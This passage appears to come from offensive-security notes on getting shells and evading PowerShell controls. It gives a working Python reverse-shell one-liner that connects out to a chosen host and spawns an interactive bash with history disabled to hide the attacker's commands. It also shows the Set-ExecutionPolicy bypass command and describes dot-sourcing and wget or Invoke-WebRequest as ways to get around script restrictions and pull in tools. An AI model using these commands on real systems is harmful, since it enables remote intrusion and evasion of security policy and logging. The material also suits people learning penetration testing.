Of course, these are pretty basic shells. If we had remote code execution over a web app for example, we could run a Python
script (if the server has a Python binary of course). A one liner can be used in this case:

```bash
export rhost="127.0.0.1";export rport=443 && python -c 'import os,pty,socket;s=socket.socket();s.connect((os.getenv("rhost"),int(os.getenv("rport"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];os.environ["HISTFILE"]="/dev/null";pty.spawn(["/bin/bash", "-i"])'
```

I was inspired by some of the Python shells in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) to write that. The main change I did was to set the HISTFILE environment variable to /dev/null, so bash_history wasn't
filled with the commands we input, not to avoid detection, but to hide our techniques.

### Bind shells

Just use netcat. If you can't use Netcat (maybe the machine doesn't have it), you can use LOTL techniques to
get it. `Invoke-WebRequest`, `wget` and more can be used to get scripts to the local machine. 

## Powershell

### Execution Policies

["PowerShell's execution policy is a safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts. This feature helps prevent the execution of malicious scripts."](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3)

Given that, sometimes we'll try to run malicious scripts, but we won't be able to thanks to this policy.
Nevertheless, we can change it.

```powershell
Set-ExecutionPolicy -ExecutionPolicy bypass -Scope Process
```

We don't need to modify registry keys. [Docs](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3)

### Dotsourcing

[What is it?](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_scripts?view=powershell-7.3#script-scope-and-dot-sourcing)

In more Linux-friendly terms: call a script from another script and allow it access to the caller script 
environment variables, aliases and functions. It's like importing a library in Python and passing a
variable to a method.

Why is this useful? Some security policies might deny you the ability to run scripts, period. Thanks
to dotsourcing, we can bypass this restrictions. 
